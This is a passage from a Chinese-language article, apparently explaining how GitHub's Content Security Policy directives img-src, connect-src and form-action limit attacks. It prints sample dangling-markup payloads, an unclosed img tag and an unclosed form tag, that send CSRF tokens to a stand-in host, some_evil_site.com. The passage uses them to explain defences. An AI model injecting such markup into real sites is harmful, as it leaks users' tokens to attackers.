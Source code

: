 这里还需要注意的一点是，当 script.png 资源被加载时，返回的`content-type`是`image/png`。但不幸的是， 只要Flash觉得响应像是一个Flash文件，就会尽可能的去尝试执行！

img-src
-------

与其它策略不同，`img-src`通常被关注的比较少。通过限制image的source，能够防止敏感信息泄露。比如当攻击者能够注入如下的img标签：

```
<img src='http://some_evil_site.com/log_csrf?html=

```

可以看到标签是未闭合的，这会导致在遇到下一个匹配的单引号之前的所有内容都会被当作是参数html的值，如果中间的内容包括一些敏感信息，如CSRF token：

```
<form action="https://github.com/account/public_keys/19023812091023">
...
<input type="hidden" name="csrf_token" value="some_csrf_token_value">
</form>

```

当img被加载时，则会导致这些内容被当作参数发送到`http://some_evilsite.com/`。

这样的标签被称为`dangling markup`，除了 img 标签之外，还有一些标签页能够窃取敏感信息。通过限制CSP 的 img-src，就能够缓解这样的情况。

connect-src
-----------

前面提到过，在标签的class为某些特殊值时，JavaScript会自动加载标签对应的URl资源，并修改DOM。通过限制`connect-src`（限制XMLHttpRequest, WebSocket, and EventSource 的连接） 到特定的 domain list，能够减少可能的攻击面（ attack surface）。比如向`api.braintreegateway.com`的连接只在支付相关的页面被允许。

当然，如果为每一个页面都手动添加`connect-src`，维护起来非常困难，GitHub使用了[Secure Headers library](https://github.com/twitter/secureheaders)来实现动态 CSP 策略调整，感兴趣的可以看看。

form-action
-----------

通过限制form表单可以提交的 action，可以降低`form`标签注入所带来的风险。与之前讨论的 "dangling markup" 标签 image 不同的是，form更加的微妙。比如攻击者能够注入如下的代码：

```
<form action="https://some_evil_site.com/log_csrf_tokens">

```

注入标签后的内容是一个form表单，如下：

```
<form action="https://github.com/account/public_keys/19023812091023">
...
<input type="hidden" name="csrf_token" value="afaffwerouafafaffasdsd">
</form>

```

因为注入的form标签没有闭合，浏览会向下寻找`</form>`，然后把之间的所有内容都作为表单的field，当用户点击提交时，一些敏感数据，比如csrf token就会发送到`https://some_evil_site.com/log_csrf_tokens`，导致信息泄露。
